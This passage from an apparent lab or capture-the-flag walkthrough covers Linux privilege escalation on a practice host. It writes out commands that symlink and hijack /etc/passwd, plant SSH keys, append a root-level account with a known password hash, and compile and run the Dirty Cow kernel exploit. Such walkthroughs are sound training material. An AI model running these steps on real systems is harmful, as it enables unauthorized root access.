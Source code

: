 

![CreateSymLink](/assets/{{ imgDir }}/CreateSymLink.png)
Next, we execute `ln -sf /etc/passwd /var/www/.cache` to create a symbolic link to the `/etc/passwd` file, as shown above. To exploit the vulnerability, we now need to somehow log in as the `www-data` user. Earlier we saw that SSH is running on port 22. If we set up SSH for the `www-data` user, we can log in as this user and exploit the vulnerability to take ownership of the `/etc/passwd` file. To set up SSH for the `www-data` user, we start by executing `ssh-keygen` to generate a SSH key pair. Then, we execute `cp /var/www/.ssh/id_rsa.pub /var/www/.ssh/authorized_keys` to ensure that the private key `id_rsa` can be used to login to the host over SSH. Next, we base64 encode the private key `id_rsa` by executing `cat /var/www/.ssh/id_rsa | base64 -w0`. We manually copy the output of the command and execute `echo '[x]' | base64 -d > id_rsa` where `[x]` is where we place the base64 encoded data which we copied. Then, we change the permissions of the private key by executing `chmod 600 ./id_rsa` and log in as the `www-data` user by executing `ssh -i ./id_rsa www-data@10.10.10.6`.

![setupSSH](/assets/{{ imgDir }}/setupSSH.png)

![setupSSH2](/assets/{{ imgDir }}/setupSSH2.png)


![getRoot](/assets/{{ imgDir }}/getRoot.png)


As can be seen in the image above, logging in over SSH changes the ownership of the `/etc/passwd` file. We proceed to generate a password hash for the password "hacked" by executing `openssl passwd -1 hacked`. Then, we use this password hash to create a second `root` user by executing `echo 'root2:$1$7wjHEDHG$IXbNvA2Ne8s5vRkGg4p9g0:0:0:pwned:/root:/bin/bash' >> /etc/passwd`. We can use the `su` command to switch to this new user. First, however, we need to upgrade our shell. This can be done with Python by executing `python -c "import pty; pty.spawn('/bin/bash')"`. Once we have upgraded our shell, we execute `su root2` and submit the password "hacked" when prompted for a password. This provides us with `root` privileges on the target!

# Privilege Escalation - Kernel Exploitation
By executing the command `uname -r`, it is possible to obtain the Kernel version on Linux-based systems. In this particular case, executing the command results in the output `2.6.31-14-generic-pae`. If we search for kernel exploits for this kernel version using searchsploit, we can find the well-known "Dirty Cow" exploit. 

![searchsploit](/assets/{{ imgDir }}/searchsploit.png)

As can be seen above, there are a couple of available exploits. We will proceed with `40839.c` as this is an exploit which has worked well in the past. We copy this exploit to the current directory and save it with the name "dirty.c". Then, we start a python web server to serve this file to the target host.

![copyKE](/assets/{{ imgDir }}/copyKE.png)



![runKE](/assets/{{ imgDir }}/runKE.png)

Next, we download the kernel exploit from our host to the target machine using `wget` as shown above. We then compile the exploit with `gcc` by executing `gcc -pthread dirty.c -o dirty -lcrypt` as explained in the comments of the exploit file's source code. We then execute `./dirty hacked`. This creates a new `root` user named `firefart` which has the password `hacked`. We can see this by checking the content of the `/etc/passwd` file, as shown below.
